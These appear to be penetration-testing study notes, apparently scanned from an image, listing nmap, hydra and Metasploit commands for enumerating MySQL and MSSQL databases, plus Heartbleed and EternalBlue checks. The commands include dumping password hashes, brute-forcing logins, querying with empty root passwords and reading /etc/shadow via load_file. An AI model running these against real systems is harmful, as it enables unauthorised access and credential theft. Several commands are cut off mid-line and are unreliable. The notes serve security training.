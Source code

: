 **nmap**: `nmap $ip -sV -p 3306 --script=mysql-dump-hashes --script-args=username="root",password=""`

**nmap**: `nmap $ip -sV -p 3306 --script=mysql-query --script-args=query="select * from books.author;",username="root",password=""`

```
>mysql -h $ip -u $username -> login to the database
>show databases;
>use $database;
>SELECT * from $database;
>SELECT load_file("/etc/shadow");
```

**metasploit**: `auxiliary/s w

**hydra**: `hydra -L users.txt -P passwords.txt $ip mysql`
 
port:1433
**nmap**: `nmap $ip -sV -p 1433 --script=ms-sql-info`

**nmap**: `nmap $ip -sV -p 1433 --script=ms-sql-ntlm-info --script-args mssql.instance-port=1433`

**nmap**: `nmap $ip -sV -p 1433 --script=ms-sql-brute --script-args=userdb=users.txt,passdb=passwords.txt`

**nmap**: `nmap $ip -sV -p 1433 --script=ms-sql-empty-password`

**nmap**: `nmap $ip -sV -p 1433 --script=ms-sql-query --script-args=ms-sql-query="select * from master..syslogins;",mssql.username="root",mssql.password="" -oN output.txt`

**nmap**: `nmap $ip -sV -p 1433 --script=ms-sql-dump-hashes --script-args=mssql.username="root",mssql.password="password123"`

**nmap**: `nmap $ip -sV -p 1433 --script=ms-sql-xp-cw


**metasploit**: `auxiliary/scanner/mssql/mssql_`


# Assessment Methodologies: Vulnerability Assessment

Case Studies

**Heartbleed**: `nmap -p 443 --script ssl-heartbleed $ip` and for exploitation search on exploit-db.com or metasploit

How it works?

Client -> Set Password: 1234 + Password_length:4 -> Server

Client <- Confirm Password: 1234 + Password_length:4 <- Server

Attacker -> Set Password: 1234 + Password_length:50 -> Server

Attacker <- Confirm Password: 1234jalslaklasa + Password_length:50 <- Server

Here The Server will send data from memory to fillfull the password length. so these data from server momery could be sensitive!!

**EternalBlue-MS17-010**: `nmap $ip --script smb-vuln-ms17-010` and for exploitation search on exploit-db.com or metasploit
